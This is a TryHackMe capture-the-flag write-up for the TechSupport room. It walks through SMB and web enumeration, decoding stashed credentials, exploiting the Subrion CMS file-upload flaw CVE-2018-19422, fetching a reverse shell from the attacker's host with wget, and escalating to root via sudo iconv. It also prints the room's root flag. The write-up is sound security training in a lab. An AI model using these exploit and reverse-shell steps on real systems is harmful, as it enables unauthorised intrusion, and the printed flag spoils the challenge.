# Tech_Supp0rt: 1 – Writeup
# Welcome!

- YØ! I tackled **TechSupport** on TryHackMe [(link here)](https://tryhackme.com/room/techsupp0rt1), which was an **easy difficulty challenge**. This one's about Samba shares, WordPress snooping, exploiting a Subrion CMS vulnerability (CVE-2018-19422), and some privilege escalation with `iconv`.

As always, I'll walk you through my process, the tools I used, and yeah... the moments where I probably overthought things. Hope this helps someone out there!

<p align="center">
  
  
                                                                                 
## Initial Reconnaissance

Alright, let's start the machine! Since we're not given any information, basic reconnaissance is the way to go.

First stop: visiting the website. We're greeted with a basic Apache page. Nothing too exciting yet.



### Nmap Scan

Time to see what ports are open:
```bash
nmap -Pn -p- 10.10.93.53
```

```
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

Nice! We've got SSH, HTTP, and SMB running. Let's keep digging.

---

## Directory Enumeration

Let's run Gobuster to see what directories we can find:
```bash
gobuster dir -u http://10.10.93.53/ -w wordlists/common.txt
```

```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/phpinfo.php (Status: 200)
/server-status (Status: 403)
/test (Status: 301)
/wordpress (Status: 301)
```

Interesting findings! Let's check them out.

### The /test Directory

Accessing `/test` shows us a super weird page.


Yeah, this is **NOT MICROSOFT**. Moving on...

### The /wordpress Directory

Found a WordPress site! Looks like it's still in development and appears to be some kind of tech support scam site. Typical.


Okay, we're not finding much here for now. Let's pivot to SMB.

---

## SMB Enumeration

Let's see what SMB shares are available:
```bash
smbclient -L //10.10.93.53 -N
```

```
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
websvr          Disk
IPC$            IPC       IPC Service (TechSupport server (Samba, Ubuntu))
```

Everything's locked down except for **websvr**. Let's access it and grab what's inside!
```bash
smbclient //10.10.93.53/websvr -N
```



**IT'S A SCAM, I TOLD YOU!** 

Downloaded the files and found a reference to `/subrion`. Time to check that out.

---

## Discovering Subrion CMS

Accessing `/subrion` shows us... nothing initially. Let's see what Subrion even is:

> "Free & Open Source content management system. Subrion is a PHP/MySQL based CMS & framework that allows you to build websites for any purpose. Yes, from blog to corporate mega portal."

Interesting! As we scroll through the files from the SMB share, we find **Subrion credentials**! But where do we use them?

The Subrion documentation says the login panel is at `/subrion/panel/`. Let's try that!


**Bingo!** The login page exists. Let's try those credentials.



Wait... the credentials are encrypted!

**"WE WILL BE RIGHT BACK!"**


---

## Decoding the Credentials

After some analysis, I figured out the credentials are encoded in **Base58**! Who even uses Base58?! Let's throw it into CyberChef.





Okay... now it's **Base32**!



And finally... **Base64**!


Alright, let's grab the flag— I mean, the credentials. This was incredibly... incredible.

**And... I'm in!**



---

## Exploring the Admin Panel

New panel unlocked! Where can we pop a shell on this thing?


After exploring the site, I noticed the version is written **all over the place**. Let's see if there's a CVE for this.

---

## CVE-2018-19422 (Subrion CMS RCE)

**Found it!** CVE-2018-19422 - Subrion CMS 4.2.1 File Upload Bypass to RCE (Authenticated)

Reading through the exploit, we see that:
- `-l` specifies the username
- `-p` specifies the password

Okay, super interesting! But **how does this exploit actually work?** Let's dive into the CVE.

### Understanding the Exploit
```python
# Exploit Title: Subrion CMS 4.2.1 - File Upload Bypass to RCE (Authenticated)
# Date: 17/05/2021
# Exploit Author: Fellipe Oliveira
# Vendor Homepage: https://subrion.org/
# Software Link: https://github.com/intelliants/subrion
# Version: SubrionCMS 4.2.1
# Tested on: Debian9, Debian 10 and Ubuntu 16.04
# CVE: CVE-2018-19422
```

The exploit works by:
1. Getting a CSRF token
2. Logging in with the provided credentials
3. Generating a random filename for the webshell
4. Uploading a `.phar` file (PHP Archive) with malicious code
5. Executing commands through the uploaded file

The key here is that Subrion doesn't properly validate file uploads, allowing us to upload a `.phar` file that contains PHP code and executing it!
I mean, we can actually do it manually trought the GUI but...it's fine.

Okay, this was **funny** to understand. Now let's exploit it!

---

## Getting a Reverse Shell

Let's run the exploit:
```bash
python3 exploit.py -u http://10.10.133.14/subrion/panel/ -l admin -p password
```


**We're `www-data`!** As usual. But web shells are pretty annoying to work with, so let's get a proper reverse shell.

First, start a simple Python HTTP server to host our reverse shell:
```bash
python -m http.server
```

On the target server, download our shell:
```bash
wget http://10.23.200.110:8000/shell.php
```


Set up a netcat listener:
```bash
ncat -lvnp 1337
```

Now, if we access the uploads folder on the server, we can find our uploaded shell.


After trying to execute `shell.php` for a while, I remembered how the exploit worked. It abused `.phar` files! So...yeah, let's change our shell from `.php` to `.phar`

**Exactly! It worked!**

Access the link:
```
http://10.10.133.14/subrion/uploads/shell.phar
```

**Reverse shell acquired!**



Stabilize it with:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


---

## Privilege Escalation Time!

We have a user called `scamsite`. Let's see if we can access their account somehow.



After resisting the temptation to run LinPEAS for a bit, I thought about checking if the WordPress site had any accessible credentials in it's folder. The `wp-admin` was password-protected, so I decided to:

```bash
grep "password" * 
```

in the WordPress directory.



**Found it!** In `wp-config.php` there's a MySQL password!


But wait... this IP doesn't have MySQL port open. Weird, but let's check the file anyway.

**LOL, I WONDER WHERE I CAN TEST THIS...**


Yeah, uhh... it wasn't for `wp-admin`... Let me try it with the `scamsite` user since that seems to be the only valid option.
```bash
su scamsite
```



**It was simpler than I thought!** Let's see if we have root now... not yet.


---

## Root Privilege Escalation

Let's check our sudo privileges:
```bash
sudo -l
```



We can run `iconv` as sudo! Time to check GTFOBins.

The menu is extensive! TryHackMe says the flag is `root.txt`, so that's what we need to read.


```bash
iconv -f 8859_1 -t 8859_1 "root/root.txt"
```

Ah, and don't forget the **fucking sudo** or it will not work:
```bash
sudo iconv -f 8859_1 -t 8859_1 "root/root.txt"
```



**Question:** What is the root.txt flag?

**Answer:** `851b8233a8c09400ec30651bd1529bf1ed02790b`

---

# Goodbye!

And that's a wrap! This challenge was fun, credential hunting and exploiting a CMS vulnerability was cool and some creative privilege escalation with `iconv`.

**Key takeaways:**
- GTFOBins is your best friend for privilege escalation, seriously!!!

Until next time and keep hacking!

<p align="center">
  
</p
